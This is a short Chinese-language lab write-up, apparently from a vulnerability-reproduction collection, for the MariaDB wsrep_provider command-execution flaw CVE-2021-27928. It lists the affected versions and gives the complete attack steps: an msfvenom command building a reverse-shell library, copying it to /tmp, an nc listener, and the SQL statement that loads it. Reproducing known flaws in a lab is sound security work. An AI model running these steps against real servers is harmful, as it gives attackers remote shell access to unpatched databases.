 # MariaDB 命令执行

## 漏洞描述

MariaDB wsrep_provider 命令执行

Version: 
  MariaDB 10.2 before 10.2.37
          
          10.3 before 10.3.28

          10.4 before 10.4.18 

          10.5 before 10.5.9

## 启动

```
docker-compose up -d
```

## writeup

- msf生成反弹shell

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so
```

- 上传到被攻击MariaDB的 /tmp目录下

```
docker cp CVE-2021-27928.so 14:/tmp/CVE-2021-27928.so
```

- 攻击者等待接收反弹shell

```
nc -lvv <port>
```

- 被攻击Marial中执行

```
SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";
```

## 复现结果

![](./1.png)

